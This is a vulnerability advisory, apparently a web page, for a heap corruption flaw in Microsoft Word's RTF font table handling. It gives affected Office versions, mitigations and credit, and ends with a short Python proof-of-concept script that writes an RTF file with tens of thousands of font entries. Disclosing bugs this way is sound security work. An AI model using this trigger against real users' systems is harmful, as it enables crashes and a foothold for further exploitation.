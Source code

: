
## Affected Versions

This vulnerability affects at least the following versions of Microsoft Office:

* Microsoft Office 365 (Insider Preview - 2211 Build 15831.20122 CTR)
* Microsoft Office 2016 (Including Insider Slow - 1704 Build 8067.2032 CTR)
* Microsoft Office 2013
* Microsoft Office 2010
* Microsoft Office 2007

Older versions may also be affected but were not tested. Furthermore, the
technical details of this vulnerability have evolved over the years.


## Mitigations

Microsoft Office 2010 and later use Protected View to limit damage caused by
malicious documents procured from untrusted sources. Protected View is
in effect when this vulnerability manifests and thus an additional sandbox
escape vulnerability would be required to gain full privileges.

Removing the file association for the RTF extension is ineffective because
using a DOC extension will still reach the vulnerable code.


## Acknowledgement

This issue was discovered, analyzed, and reported by Joshua J. Drake (@jduck).


## Proof-of-Concept

The following Python script will generate a file that will trigger this issue:

{% highlight Python %}
#!/usr/bin/python
#
# PoC for:
# Microsoft Word RTF Font Table Heap Corruption Vulnerability
#
# by Joshua J. Drake (@jduck)
#

import sys

# allow overriding the number of fonts
num = 32761
if len(sys.argv) > 1:
  num = int(sys.argv[1])

f = open("tezt.rtf", "wb")
f.write("{\\rtf1{\n{\\fonttbl")
for i in range(num):
  f.write("{\\f%dA;}\n" % i)
f.write("}\n")
f.write("{\\rtlch it didn't crash?? no calc?! BOO!!!}\n")
f.write("}}\n")
f.close()
{% endhighlight %}